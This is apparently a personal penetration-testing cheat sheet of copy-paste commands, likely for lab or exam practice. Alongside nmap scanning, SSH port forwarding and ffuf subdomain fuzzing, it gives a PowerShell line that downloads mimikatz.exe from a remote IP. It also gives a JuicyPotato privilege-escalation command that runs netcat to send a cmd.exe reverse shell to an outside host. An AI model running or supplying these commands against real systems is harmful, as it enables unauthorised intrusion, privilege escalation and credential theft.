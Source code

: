 # Reference

Quick Ctrl+C commands I find useful.

```
nmap -sC -sV -vv -Pn <MACHINE_IP> -oN file.nmap
```

Port forwarding from a remote ip(which here is 192.168.126.52) to my own.

```
sudo ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -N -L 0.0.0.0:80:0.0.0.0:80 student@192.168.126.52 -p 2222
```

Fuzzing subdomains.

```
ffuf -u http://<URL>/ -H "HOST: FUZZ.<URL>" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt 
```

```
$wc = New-Object System.Net.WebClient 
$wc.DownloadFile("http://192.168.119.161/mimikatz.exe","C:\Users\Administrator\Desktop\mimikatz.exe") 
```

JuicyPotato Attack

```
juicypotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Users\Public\Documents\nc.exe -e cmd.exe 192.168.45.243 1234" -t *
```
